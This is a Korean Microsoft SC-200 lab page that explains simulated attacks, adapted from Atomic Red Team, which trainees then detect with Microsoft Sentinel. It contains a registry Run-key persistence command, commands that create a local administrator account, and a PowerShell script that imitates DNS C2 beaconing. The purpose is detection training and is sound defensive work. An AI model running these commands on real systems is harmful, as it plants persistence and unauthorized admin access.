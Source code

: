```yaml
---
lab:
  title: 연습 5 - 검색 모델링 이해
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# 학습 경로 7 - 랩 1 - 연습 5 - 검색 모델링 이해

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### 작업 1: 공격 이해

>**중요: 이 연습에서는 작업을 수행하지 않습니다.**  이러한 지침은 다음 연습에서 수행할 공격에 대한 설명일 뿐입니다. 이 페이지를 주의 깊게 읽으세요.

공격 패턴은 오픈 소스 프로젝트(https://github.com/redcanaryco/atomic-red-team)를 기반으로 합니다.


#### 공격 1 - 레지스트리 키 추가를 통한 지속성

공격자는 레지스트리 실행 키에 프로그램을 추가합니다. 이렇게 하면 사용자가 로그온할 때마다 프로그램을 실행하여 지속성을 달성합니다.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 공격 2 - 사용자 권한 추가 및 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다. 그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### 공격 3 - DNS/C2 

공격자는 대량의 DNS 쿼리를 명령 및 제어(C2) 서버로 보냅니다. 의도는 단일 원본 시스템 또는 단일 대상 도메인에서 DNS 쿼리 수에 대한 임계값 기반 검색을 트리거하는 것입니다.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### 작업 2: 탐지 모델 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다. 여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.


KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

다음으로, 분석 규칙에 다른 변경을 적용합니다.

>**참고:** 일부 경고는 이 랩의 목적에 따라 더 짧은 기간에 트리거됩니다.

## 연습 6 계속 진행
